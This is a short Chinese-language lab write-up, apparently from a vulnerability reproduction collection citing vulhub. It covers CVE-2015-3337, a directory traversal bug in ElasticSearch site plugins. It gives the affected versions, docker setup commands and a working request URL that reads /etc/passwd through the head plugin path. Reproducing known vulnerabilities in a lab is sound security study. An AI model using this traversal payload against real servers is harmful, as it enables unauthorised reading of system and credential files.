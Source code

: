```yaml
---
title: "（CVE-2015-3337）ElasticSearch 目录穿越漏洞"
id: zhfly2905
---
```


# （CVE-2015-3337）ElasticSearch 目录穿越漏洞

## 一、漏洞简介

在安装了具有“site”功能的插件以后，插件目录使用`../`即可向上跳转，导致目录穿越漏洞，可读取任意文件。没有安装任意插件的elasticsearch不受影响。

## 二、漏洞影响

影响版本：1.4.5以下/1.5.2以下

## 三、复现过程

编译及运行测试环境

```
docker-compose build
docker-compose up -d 
```

测试环境默认安装了一个插件：`elasticsearch-head`，主页在此：https://github.com/mobz/elasticsearch-head

访问`http://www.0-sec.org:9200/_plugin/head/../../../../../../../../../etc/passwd`读取任意文件（不要在浏览器访问）：

![image](../img/0191e6afb85462bee9cd61acf15bedf5.png)

### head插件

head插件提供了elasticsearch的前端页面，访问 `http://www.0-sec.org:9200/_plugin/head/` 即可看到，不多说了。

## 参考链接

> https://vulhub.org/#/environments/elasticsearch/CVE-2015-3337/